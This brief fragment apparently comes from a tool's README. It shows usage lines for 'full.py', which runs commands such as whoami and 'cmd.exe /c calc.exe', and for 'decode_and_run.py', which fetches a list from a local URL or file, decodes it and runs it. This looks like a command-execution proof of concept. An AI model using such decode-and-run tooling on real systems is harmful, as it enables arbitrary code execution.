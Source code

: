 * python full.py -cmd "whoami"
* python full.py -cmd "ifconfig"
* python full.py -cmd "cmd.exe /c calc.exe"

* python decode_and_run.py -url http://127.0.0.1:8000/list.txt
* python decode_and_run.py -file list.txt
